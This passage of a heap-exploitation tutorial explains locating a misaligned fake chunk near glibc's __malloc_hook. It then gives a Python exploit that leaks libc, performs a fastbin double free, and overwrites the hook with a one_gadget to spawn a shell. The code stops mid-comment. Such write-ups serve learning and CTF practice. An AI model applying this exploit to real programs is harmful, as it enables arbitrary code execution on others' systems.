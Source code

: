If we do not find those bytes we can search elsewhere, for example near `__malloc_hook`.

We find that before `__malloc_hook` we have an address, but we know that after translating it to decimal it would be a gigantic number. We could exploit the alignment to take only part of it. For example we can go from `0x7ffff7...` to `0x7f`. To align we just add some bytes to the address of the cell to 'cut' its content according to our needs.

Then we take the address of that cell, we compute its offset, and put it in our script in place of `__malloc_hook`. Full exploit:

```python
# part 1: leaking libc address
input('press any key to start exploiting...')
chunk_a = alloc(0x200)
chunk_b = alloc(0x30)
free_chunk(chunk_a)
libc_leak = u64(read_chunk(chunk_a)[:6]+b"\x00\x00")

# libc base address found by checking the base of libc with
# mmap in gdb, and then computing the difference wrt the
# address just printed
libc_base = libc_leak - 0x3c4b78
malloc_hook = libc_base + malloc_hook_offset
one_gadget = libc_base + magic_gadget

print('[!] malloc_hook: %#x' % malloc_hook)
print('[!] libc_leak: %#x' % libc_leak)
print('[!] libc_base: %#x' % libc_base)
print('[!] one_gadget: %#x' % one_gadget)

# part 2: the exploit
chunk_c = alloc(size)
chunk_d = alloc(size)

# we created the loop
free_chunk(chunk_c)
free_chunk(chunk_d)
free_chunk(chunk_c)

# the vuln code will use chunk_c like it's both still allocated
# and like it is not
# which means that we can write a target address into memory
# and we can override the hook of the malloc function to get
# arbitrary code execution when its called
chunk_c = alloc(size)
write_chunk(chunk_c, p64(malloc_hook-0x23))

alloc(size)             
alloc(size)

# with the following call to alloc()
# we are going to allocate a new chunk into a fast bin
# the fast bin address will be taken from the fast bin
# double linked list which we corrupted to point to an
# arbitrary address instead of the one of a valid chunk
# this means that we will allocate and make writable any
# part of the memory pointed by the address we wrote before
target = alloc(size)

# we will do what we just described to write the address of
# a batch of instructions that will spawn a shell in place of
# the hook of the malloc function
write_chunk(target, b'A'*(35-16) + p64(one_gadget))

# we will call the malloc function, since now it's hook
```